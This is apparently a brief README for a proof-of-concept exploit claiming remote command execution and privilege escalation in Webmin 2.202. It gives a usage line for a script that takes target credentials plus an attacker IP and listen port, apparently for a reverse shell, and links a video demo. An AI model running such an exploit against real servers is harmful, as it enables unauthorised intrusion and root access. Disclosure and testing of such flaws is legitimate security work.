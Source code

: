 # Webmin RCE Leading to Privilege Escalation

This vulnerability is found in version 2.202 of the webmin and includes remote command execution and privilege escalation vulnerabilities.

# PoC
 ``` 
 python3 webmin_rce.py -rhost <target> -rport <targetport> -u <user> -p <password> -lhost <attackerip> -lport <listenport>
  ``` 
  [![PoC](https://img.youtube.com/vi/QmZ420D3wHs/0.jpg)](https://www.youtube.com/watch?v=QmZ420D3wHs)

